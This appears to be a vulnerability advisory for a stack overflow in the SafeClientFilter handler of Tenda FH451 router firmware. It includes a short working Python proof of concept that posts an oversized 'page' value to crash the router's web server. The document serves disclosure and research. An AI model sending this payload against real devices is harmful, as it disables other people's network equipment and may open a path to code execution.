






# Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component
**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 


Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).



Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.



The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

!

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.



**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.







The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.
